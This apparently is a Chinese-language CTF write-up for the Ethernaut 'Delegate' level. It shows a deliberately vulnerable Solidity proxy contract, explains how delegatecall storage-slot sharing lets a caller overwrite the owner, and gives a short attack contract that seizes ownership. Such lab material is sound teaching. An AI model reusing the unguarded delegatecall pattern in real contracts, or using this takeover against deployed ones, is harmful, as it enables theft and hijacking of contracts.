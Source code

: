 # 6. Delegate

### 原题
```
这一关的目标是申明你对你创建实例的所有权.
```
```solidity
  // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```
### 分析
窃取所有权的又来咯。\
这个题目有点意思，这个里面的逻辑有点UUPS等代理架构的味道。\
我们来分析下。\
Delegate合约的公开方法pwn可以修改owner，\
如果是直接调用Delegate.pwn()，修改的是Delegate的owner。\
但是要求我们修改Delegation的所有权，我们看可以利用的只有fallback()。\
fallback的作用，什么时候触发，我假设大家都知道了。\
我在调用Delegation上不存在的函数的时候，就可以直接执行fallback了。\
再来看看里面的逻辑，执行了委托代理delegatecall，执行权交到了Delegate合约。\
那就意味着我可以通过代理去调用Delegate的pwn方法了。\
但是怎么来修改Delegation的owner呢？\
delegatecall有个很大的特性，虽然调用了目标合约的方法，\
但是方法里修改的状态变量都会在委托方的存储槽去查找（不是按照变量名称去查找，而是依照存储槽的编号，EVM里只认编号）。\
也就是说，\
只要代理合约和目标合约定义的状态变量顺序一致，\
那么委托执行的方法里面修改的状态变量都是修改的代理合约上的同样编号的存储槽。\
我们可以看到两个合约上的owner的定义都在第一个，也就是都是slot0的存储槽。\
这样委托执行的pwn方法，其实修改的是Delegation的owner。\
这个有点绕吧，但是正是有这样的机制，\
才让我们可以使用UUPS或者透明代理架构，可以达到合约升级的目的。\
不绕了，我自己也快被绕进去：），还是看看攻击代码吧
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface  IDelegation {
    function pwn() external ;
    function owner() external returns (address);
}

contract DelegationAttack {
    IDelegation delegation;

    constructor( address _delegation) {
      delegation = IDelegation(_delegation);
    }

    function attack() public {
      // 这里就是逼迫对方执行fallback函数(存在的话)，
      // 利用委托代理机制，达到攻击目的
      // “pwn()”是通过msg.data传送
      delegation.pwn();
    }

    function getOwner() public returns (address) {
       return  delegation.owner();
    }
}
```